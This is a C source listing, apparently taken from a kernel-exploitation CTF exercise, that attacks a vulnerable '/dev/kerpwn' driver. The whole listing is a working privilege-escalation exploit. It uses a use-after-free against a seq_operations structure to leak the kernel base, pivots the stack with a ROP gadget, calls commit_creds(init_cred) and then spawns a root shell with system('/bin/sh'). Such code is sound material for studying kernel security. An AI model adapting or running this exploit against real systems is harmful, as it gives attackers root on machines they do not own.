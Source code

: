 ```c
{
    struct alloc_chunk alloc = 
    {
        .size = size,
        .buf = buf,
    };
    ioctl(dev_fd, 0x20, &alloc);
}

size_t      buf[0x100];
size_t      swapgs_restore_regs_and_return_to_usermode;
size_t      init_cred;
size_t      pop_rdi_ret;
long        seq_fd;
void *      kernel_base = 0xffffffff81000000;
size_t      kernel_offset = 0;
size_t      commit_creds;
size_t      gadget;

int main(int argc, char ** argv, char ** envp)
{
    dev_fd = open("/dev/kerpwn", O_RDWR);

    allocChunk(0x20, buf);
    deleteChunk(0);
    seq_fd = open("/proc/self/stat", O_RDONLY);
    readChunk(0, 0x20, buf);

    kernel_offset = buf[0] - SEQ_OPS_0;
    kernel_base += kernel_offset;
    swapgs_restore_regs_and_return_to_usermode = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + kernel_offset;
    init_cred = INIT_CRED + kernel_offset;
    pop_rdi_ret = POP_RDI_RET + kernel_offset;
    commit_creds = COMMIT_CREDS + kernel_offset;
    gadget = 0xffffffff8135b0f6 + kernel_offset; // add rsp 一個數然後 pop 一堆寄存器最後ret，具體的不記得了，懶得再回去翻了

    buf[0] = gadget;
    swapgs_restore_regs_and_return_to_usermode += 9;
    writeChunk(0, 0x20, buf);

    __asm__(
        "mov r15, 0xbeefdead;"
        "mov r14, pop_rdi_ret;"
        "mov r13, init_cred;" // add rsp, 0x40 ; ret
        "mov r12, commit_creds;"
        "mov rbp, swapgs_restore_regs_and_return_to_usermode;"
        "mov rbx, 0x999999999;"
        "mov r11, 0x114514;"
        "mov r10, 0x666666666;"
        "mov r9, 0x1919114514;"
        "mov r8, 0xabcd1919810;"
        "xor rax, rax;"
        "mov rcx, 0x666666;"
        "mov rdx, 8;"
        "mov rsi, rsp;"
        "mov rdi, seq_fd;"
        "syscall"
    );

    system("/bin/sh");

    return 0;
```